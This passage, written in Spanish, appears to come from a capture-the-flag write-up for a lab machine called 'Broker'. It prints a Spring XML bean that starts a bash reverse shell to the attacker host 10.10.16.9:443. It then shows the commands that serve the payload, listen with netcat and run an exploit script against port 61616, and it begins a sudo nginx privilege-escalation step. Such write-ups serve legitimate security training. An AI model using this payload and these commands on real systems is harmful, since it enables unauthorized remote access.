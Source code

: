
### poc.xml
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <!-- This command will give a reverse shell on port 9001. HTML Entity Encoded. Change IP as needed -->
            <value>bash -i &#x3E;&#x26; /dev/tcp/10.10.16.9/443 0&#x3E;&#x26;1</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```

Y ahora mientras estamos levantando un server http con [[python3 -m http.server]] con el comando `python3 -m http.server 80` vamos a compartir el archivo *poc.xml* , a la vez que estamos en escucha con [[nc -nlvp 443]] para que se entable la [[Reverse shell]]. El ultimo paso seria ejecutar el script con el comando ``python3 poc.py 10.10.11.243 61616 http://10.10.16.9:80/poc.xml``


![[Broker15.png]]

![[Broker14.png]]

![[Broker16.png]]
Ya ganamos acceso a la maquina

------
# [[Tratamiento de la TTY]]

--------
# Escalada de privilegios con [[Abuso de Sudo]] del [[Binario nginx]]

```shell
sudo -l
```

![[Broker17.png]]
Vemos que podemos ejecutar el binario */usr/sbin/nginx* sin proporcionar contraseña
